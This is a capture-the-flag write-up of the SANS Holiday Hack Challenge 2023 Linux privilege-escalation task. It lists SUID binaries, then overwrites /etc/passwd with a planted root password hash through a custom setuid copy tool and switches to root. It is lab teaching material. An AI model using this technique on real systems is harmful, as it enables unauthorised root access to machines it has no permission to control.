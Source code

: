 # SANS Holiday Hack Challenge 2023 - Linux PrivEsc

## Description

> Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

### Metadata

- Difficulty: 3/5
- Tags: `linux`, `cli`, `privesc`

## Solution

### Video

Videos are coming soon! I did not want to put them on GitHub as they are 10 - 100 MBs.
<!-- <video src="media/linux-privesc.mp4" width='100%' controls playsinline></video> -->

### Write-up

We get a simulated bash shell as `elf` user and our task is to escalate privileges to `root` and execute a binary in the `/root/` directory.

A typical Linux privilege escalation possibility is by finding a binary with the SETUID bit set, which means that if the binary is executed by anyone, it will run with as the owner. If the owner is `root` then it will be executed as `root`.

```shell
elf@3a9c01b680bd:~$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 85064 Nov 29  2022 /usr/bin/chfn
-rwsr-xr-x 1 root root 53040 Nov 29  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 55528 May 30  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 44784 Nov 29  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 67816 May 30  2023 /usr/bin/su
-rwsr-xr-x 1 root root 88464 Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39144 May 30  2023 /usr/bin/umount
-rwsr-xr-x 1 root root 68208 Nov 29  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 16952 Dec  2 22:17 /usr/bin/simplecopy
```

There is an interesting, uncommon binary: `/usr/bin/simplecopy`. With this binary we can copy files as `root` (this means rewriting too).

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy
Usage: /usr/bin/simplecopy <source> <destination>
```

Let's try to rewrite the original `/etc/passwd` file with a modified one where the password of the `root` user is set by us.

Let's create a password hash first.

```shell
$ openssl passwd -1 abcd1234
$1$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0
```

Copy the original `passwd` file and modify the first line so that it will contain the password hash.

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy /etc/passwd passwd

elf@3a9c01b680bd:~$ sed '0,/x/s//\$1\$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0/' passwd > new_passwd 

elf@3a9c01b680bd:~$ cat new_passwd 
root:$1$aaKSCbOa$9xFvoWBfi3.1PjpX4vmub0:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
```

Now, let's copy the modified `passwd` file and rewrite the original one.

```shell
elf@3a9c01b680bd:~$ /usr/bin/simplecopy new_passwd /etc/passwd
```

Now we know the `root` password and we can solve the challenge.

```shell
elf@3a9c01b680bd:~$ su root
Password: 
root@3a9c01b680bd:/home/elf# cd /root/
root@3a9c01b680bd:~# ls
runmetoanswer
root@3a9c01b680bd:~# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

> **Rose Mold (Ostrich Saloon)**:
*Yup, I knew you knew. You just have that vibe.
To answer your question of why from earlier... Nunya!
But, I will tell you something better, about some information I... found.
There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
That's all I got. K byyeeeee.
Ugh... n00bs...*